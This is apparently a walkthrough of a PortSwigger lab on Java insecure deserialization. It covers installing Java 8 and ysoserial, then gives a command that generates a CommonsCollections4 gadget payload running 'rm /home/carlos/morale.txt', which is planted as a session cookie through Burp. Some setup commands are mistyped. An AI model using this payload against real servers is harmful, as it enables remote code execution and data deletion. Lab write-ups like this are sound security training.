







# PortSwigger Insecure Deseleraization Part 2

[**Lab: Exploiting Java deserialization with Apache Commons | Web Security Academy**  
*This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you…*portswigger.net](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons "https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons")


```
Lab:- Exploiting Java with Apache Commons 
Lab type:- PRACTITIONER
```

This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don’t have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`.


---

This lab will be a little different and uses a tool called **Ysoserial**, we will install the tool first and see how to use it along with errors you might encounter while using the tool, also installing appropriate dependencies for it to work perfectly

Also, note that Java 8 is not found in the kali linux repo so you will have to install it manually using the given method

First Install java8, you might get confused about which particular version to use so I have included the download link for it, you might have to signup for into Oracle site in order to download

[Java Archive Downloads — Java SE 8u211 and later](https://www.oracle.com/java/technologies/javase/javase8u211-later-archive-downloads.html#license-lightbox)

Into the terminal, you can check which version of Java you are currently using


```bash
java --version
```
now cd into


```bash
cd /usr/lib/jvm
```
if there is no package of Java installed in your system you can manually create this directory

now in the /usr/lib/jvm unzip the downloaded package of java8


```bash
sudo tar -xvzf /home/logic/jdk-8u371-linux-x64.tar.gz
```
now cd into jdk1.8.0\_371/ and check the full path of the directory which should be something like this


```bash
/usr/lib/jvm/jdk1.8.0\_371
```
now using any text editor you have to edit the /etc/environment file i am using vi here


```bash
sudo vi /etc/environment
```
and add the following path


```bash
/usr/lib/jvm/jdk1.8.0\_371/bin:usr/lib/jvm/jdk1.8.0\_371/db/bin:usr/lib/jvm/jdk1.8.0\_371/jre/bin
```
Run the following command one by one


```bash
sudo update-alternatives - install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0\_371/bin/java" 0
```

```bash
sudo update-alternatives - install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0\_371/bin/javac" 0
```

```bash
sudo update-alternatives - set java /usr/lib/jvm/jdk1.8.0\_371/bin/javasudo update-alternatives - set java /usr/lib/jvm/jdk1.8.0\_371/bin/java
```

```bash
sudo update-alternatives - set java /usr/lib/jvm/jdk1.8.0\_371/bin/javac
```

```bash
sudo update-alternatives - config java
```

```bash
java -version
```

{ .glightbox .center width="500" }

It should be set to java8 if you used the command above and you can choose between java17 and java8 in my case, you might be having different versions but you should set it to java8 and java8c

now install Ysoserial using the given link:-

<https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar>

Now we are good to go let’s start the lab

{ .glightbox .center width="500" }

after the lab starts open burp suite along with it and go to the login page and log in with the given credentials weiner:peter

{ .glightbox .center width="500" }

now open the burp suite proxy tab and in HTTP History

{ .glightbox .center width="500" }

now using ysoserial tool we will generate a payload


{ .glightbox .center width="500" }

```bash
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base  
64
```
now turn on the intercept tab and click on the home tab and send that request to the repeater tab

{ .glightbox .center width="500" }

now copy the cookie generated by ysoserial tool and replace it with the cookie in the repeater tab

also, encode the cookie with URL encoding

and there you go the lab is solved


{ .glightbox .center width="500" }

Thanks for reading
